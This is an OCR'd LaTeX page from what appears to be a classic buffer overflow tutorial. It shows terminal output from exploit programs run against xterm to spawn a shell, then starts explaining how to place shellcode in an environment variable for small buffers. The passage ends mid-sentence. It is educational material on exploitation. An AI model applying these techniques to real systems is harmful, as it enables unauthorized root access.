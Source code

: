 \documentclass[10pt]{article}
\begin{document}
{\begin{verbatim}
[aleph1]$ export DISPLAY=:0.0
[aleph1]$ ./exploit3 1124
Using address: 0xbffffdb4

[aleph1]$ /usr/X11R6/bin/xterm -fg $EGG
^C
[aleph1]$ exit
[aleph1]$ ./exploit3 2148 100
Using address: 0xbffffd48

[aleph1]$ /usr/X11R6/bin/xterm -fg $EGG
....

Warning: some arguments in previous message were lost
Illegal instruction

[aleph1]$ exit
.
.
.

[aleph1]$ ./exploit4 2148 600
Using address: 0xbffffb54

[aleph1]$ /usr/X11R6/bin/xterm -fg $EGG
Warning: some arguments in previous message were lost
bash$
\end{verbatim}


Eureka! Less than a dozen tries and we found the magic numbers. If xterm were installed suid root this would 
now be a root shell. 

\subsection{Small Buffer Overflows}
There wil l be times when  the buffer you are trying to overflow is so small that either the shellcode wont fit into 
it, and it will overwrite the return address with instructions instead of the address of our code, or the number of 
NOPs you can pad the front of the string with is so small that the chances of guessing their address is 
minuscule. To obtain a shell from these programs we will have to go about it another way. This particular 
approach only works when you have access to the program's environment variables. What we will do is place 
our shellcode in an environment variable, and then overflow the buffer with the address of this variable in 
memory. This method also increases your changes of the exploit working as you can make the environment 
variable holding the shell code as large as you want. The environment variables are stored in the top of the stack 
when the program is started, any modification by setenv() are then allocated elsewhere. The stack at the 
beginning then looks like this:

\begin{verbatim}
<strings><argv pointers>NULL<envp pointers>NULL<argc><argv>envp> 
\end{verbatim}

Our new program will take an extra variable, the size of the variable containing the shellcode and NOPs. Our 

}
\end{document}
